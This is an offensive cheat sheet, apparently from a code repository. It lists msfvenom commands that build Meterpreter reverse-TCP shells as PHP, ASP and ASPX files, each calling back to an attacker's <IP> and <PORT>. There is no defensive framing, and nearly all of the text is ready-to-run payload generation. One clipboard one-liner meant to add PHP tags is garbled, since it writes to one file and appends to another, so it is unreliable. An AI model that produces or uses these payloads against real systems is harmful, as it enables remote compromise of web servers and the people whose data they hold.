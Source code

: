 # Reverse Shells

## PHP

PHP meterpreter reverse callback shell.

```
$ msfvenom -p php/meterpreter_reverse_tcp lhost=<IP> lport=<PORT> -f raw > met.php
```

After generating the PHP meterpreter reverse callback shell include the tags to ensure execution.

```
$ xclip -selection clipboard met.php && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> met.php
```

## ASP

- x86 (32-bit) Payloads

```
$ msfvenom -p windows/meterpreter_reverse_tcp lhost=<IP> lport=<PORT> -f asp -o met-x86.asp
```

- x86-64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=<IP> lport=<PORT> -f asp -o met-x64.asp
```

## ASPX

- x86 (32-bit) Payloads

```
$ msfvenom -p windows/meterpreter_reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o met-x86.aspx
```

- x86-64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o met-x64.aspx
```